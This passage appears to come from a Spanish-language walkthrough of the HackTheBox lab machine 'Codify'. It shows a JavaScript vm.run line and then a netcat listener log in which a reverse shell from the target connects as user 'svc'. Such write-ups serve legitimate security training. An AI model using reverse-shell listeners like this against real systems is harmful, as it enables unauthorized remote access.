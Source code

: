 ```javascript

console.log(vm.run(code));
```



<figure><img src="../../.gitbook/assets/imagen (8) (1) (1) (1) (1) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

Verificamos que hemos conseguido el acceso a la máquina víctima con el usuario `svc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.239] 35090
bash: cannot set terminal process group (1260): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

